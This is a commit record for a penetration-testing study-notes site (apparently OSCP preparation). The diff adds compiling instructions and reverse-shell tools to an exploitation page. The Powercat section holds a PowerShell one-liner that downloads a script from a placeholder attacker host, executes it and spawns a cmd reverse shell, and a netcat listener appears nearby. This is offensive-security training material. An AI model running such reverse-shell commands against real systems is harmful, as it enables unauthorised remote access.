

Before and after one commit to krovs/oscp-notes, an MkDocs documentation site: the page built from docs/13_exploitation.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Add rev shells and runasc

````diff
--- a/docs/13_exploitation.md
+++ b/docs/13_exploitation.md
@@ -17,14 +17,22 @@
 nmap --script-help <name>
 ```
 
-### Check Connectivity
+### Compiling Exploits
 
 ```shell
-# in kali
-sudo tcpdump -i tun0 icmp
+# for windows
+sudo apt install mingw-w64
+# 64-bit and 32-bit cpp files
+x86_64-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
+i686-w64-mingw32-g++ myprogram.cpp -o myprogram.exe
+# # 64-bit and 32-bit c files
+x86_64-w64-mingw32-gcc myprogram.c -o myprogram.exe
+i686-w64-mingw32-gcc myprogram.c -o myprogram.exe
 
-# from the target
-ping -c1 <kali_ip>
+# for linux
+sudo apt install gcc g++ make
+gcc myprogram.c -o myprogram
+g++ myprogram.cpp -o myprogram
 ```
 
 ## Reverse Shells
@@ -101,10 +109,31 @@
 rlwrap nc -lnvp 4444
 ```
 
-### Other options
+### Penelope
 
 If the fully interactive shell can't be achieved and it's impossible to edit a file, [penelope](https://github.com/brightio/penelope) can hep.
 
 ```shell
 python penelope.py 80
 ```
+
+### Powercat
+
+> <https://github.com/besimorhino/powercat>
+
+```shell
+# load the function from .ps1 file:
+.\powercat.ps1
+# load the function from URL and connect back to listener:
+IEX (New-Object System.Net.Webclient).DownloadString('http://<ip>:<port>/powercat.ps1');powercat -c <ip> -p <port> -e cmd
+```
+
+### Check Connectivity
+
+```shell
+# in kali
+sudo tcpdump -i tun0 icmp
+
+# from the target
+ping -c1 <kali_ip>
+```
````
Also changed, not shown: docs/15_windows_privesc.md (+17 -0 lines).
